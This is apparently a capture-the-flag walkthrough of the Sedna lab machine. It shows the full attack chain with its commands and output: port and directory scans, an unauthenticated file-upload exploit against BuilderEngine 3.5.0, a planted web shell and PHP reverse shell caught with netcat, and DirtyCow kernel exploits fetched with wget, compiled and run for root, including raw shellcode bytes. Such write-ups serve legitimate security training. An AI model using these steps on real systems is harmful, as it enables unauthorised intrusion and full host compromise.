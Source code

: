 # ctf-Sedna




First , nmapping :
nmap -sS -A 192.168.1.93 

Scanning Sedna (192.168.1.93) [1000 ports]
     | Discovered open port 8080/tcp on 192.168.1.93
     
     | Discovered open port 22/tcp on 192.168.1.93
     
     | Discovered open port 445/tcp on 192.168.1.93
     
     | Discovered open port 110/tcp on 192.168.1.93
     
     | Discovered open port 143/tcp on 192.168.1.93
     
     | Discovered open port 139/tcp on 192.168.1.93
     
     | Discovered open port 111/tcp on 192.168.1.93
     
     | Discovered open port 53/tcp on 192.168.1.93
     
     | Discovered open port 993/tcp on 192.168.1.93
     
     | Discovered open port 995/tcp on 192.168.1.93
     
     | Discovered open port 80/tcp on 192.168.1.93

And  dirb  http://192.168.1.93  /home/boax/Téléchargements/common.txt 


$ DIRB v2.22    
By The Dark Raver
START_TIME: Sat Oct 14 17:21:04 2017
URL_BASE: http://192.168.1.93/
WORDLIST_FILES: /home/boax/Téléchargements/common.txt


GENERATED WORDS: 4613                                                          

---- Scanning URL: http://192.168.1.93/ ----
==> DIRECTORY: http://192.168.1.93/blocks/                                                                                                      
==> DIRECTORY: http://192.168.1.93/files/                                                                                                       
+ http://192.168.1.93/index.html (CODE:200|SIZE:101)                                                                                            
==> DIRECTORY: http://192.168.1.93/modules/                                                                                                     
+ http://192.168.1.93/robots.txt (CODE:200|SIZE:36)                                                                                             
+ http://192.168.1.93/server-status (CODE:403|SIZE:292)                                                                                         
==> DIRECTORY: http://192.168.1.93/system/                                                                                                      
==> DIRECTORY: http://192.168.1.93/themes/            

On http://192.168.1.93/themes/default_theme_2015/

and http://192.168.1.93/themes/default_theme_2015/description.tx 

==>>  Default 2015 Theme for BuilderEngine V3 !
An exploit :

https://www.exploit-db.com/exploits/40390/

so :

 Exploit Title: BuilderEngine 3.5.0 Remote Code Execution via elFinder 2.0
 Date: 18/09/2016
 Exploit Author: metanubix
 Vendor Homepage: http://builderengine.org/
 Software Link: http://builderengine.org/page-cms-download.html
 Tested on: Kali Linux 2.0 64 bit
 Google Dork: intext:"BuilderEngine Ltd. All Right Reserved"
 
Unauthenticated Unrestricted File Upload:
 
    POST /themes/dashboard/assets/plugins/jquery-file-upload/server/php/
 
    Vulnerable Parameter: files[]
 
    We can upload test.php and reach the file via the following link:
    /files/test.php



On local , u can upload a shell :

             form method="post" action="http://192.168.1.93/themes/dashboard/assets/plugins/jquery-file-upload/server/php/" enctype="multipart/form-data">
             <input name="files[]" type="file">
             <input value="send" type="submit">
             </form>

and uploading for example :

https://github.com/b374k/b374k

u can find ( on .. and .. )
the flag1 : bfbb7e6e6e88d9ae66848b9aeac6b289 .

Good §

For the second flag :

Uploading php-reverse-shell on :http://pentestmonkey.net/tools/web-shells/php-reverse-shell
and getting ur port .

nc -lnvp 4444 :
uname -a
Linux Sedna 3.13.0-32-generic

With an exploit :https://www.exploit-db.com/exploits/37292/

uploading wget https://www.exploit-db.com/download/37292

mv 37292 shell.c

gcc shell.c -o shell

./shell

spawning threads

mount #1

mount #2

child threads done

id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

can't give root access !!!

Then , ive tried several dirty cow exploits and each time it's a crashing sedna vm ...!

Now ,  i try the exploit :https://www.exploit-db.com/exploits/40616/ keeping the 32 bits/version :

unsigned char sc[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x01, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x03, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x54, 0x80, 0x04, 0x08, 0x34, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x34, 0x00, 0x20, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x80, 0x04, 0x08, 0x00, 0x80, 0x04, 0x08, 0x88, 0x00, 0x00, 0x00,
  0xbc, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00,
  0x31, 0xdb, 0x6a, 0x17, 0x58, 0xcd, 0x80, 0x6a, 0x0b, 0x58, 0x99, 0x52,
  0x66, 0x68, 0x2d, 0x63, 0x89, 0xe7, 0x68, 0x2f, 0x73, 0x68, 0x00, 0x68,
  0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x52, 0xe8, 0x0a, 0x00, 0x00, 0x00,
  0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73, 0x68, 0x00, 0x57, 0x53,
  0x89, 0xe1, 0xcd, 0x80
};
unsigned int sc_len = 136;

lets go :

i put this exploit with correction on a file /4061632 uploaded on 192.168.1.93 .

continuing on shell :

$ python -c 'import pty;pty.spawn("/bin/bash")'

www-data@Sedna:/$ id

id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@Sedna:/$ cd tmp

cd tmp

www-data@Sedna:/tmp$ ls

ls

hsperfdata_tomcat7  tomcat7-tomcat7-tmp

www-data@Sedna:/tmp$ wget http://192.168.1.93/files/4061632

mv 4061632 cowroot.c

gcc cowroot.c -o cowroot -pthread

./cowroot

DirtyCow root privilege escalation

Backing up /usr/bin/passwd.. to /tmp/bak

Size of binary: 45420

Racing, this may take a while..

thread stopped

/usr/bin/passwd is overwritten

Popping root shell.

Don't forget to restore /tmp/bak

thread stopped

root@Sedna:/tmp# echo 0 > /proc/sys/vm/dirty_writeback_centisecs   ////( quickly !!!)

echo 0 > /proc/sys/vm/dirty_writeback_centisecs

root@Sedna:/tmp# id

id

uid=0(root) gid=33(www-data) groups=0(root),33(www-data)

!!!!

seraching the last flag ...

ls

bin   dev  home        lib         media  opt   root  sbin  sys  usr  vmlinuz
boot  etc  initrd.img  lost+found  mnt    proc  run   srv   tmp  var
root@Sedna:/# cd root

cd root

root@Sedna:/root# ls

ls

8d2daf441809dcd86398d3d750d768b5-BuilderEngine-CMS-V3.zip  chkrootkit  flag.txt

root@Sedna:/root# cat flag.txt

cat flag.txt

a10828bee17db751de4b936614558305  the flag2.


Good challenge . TY §








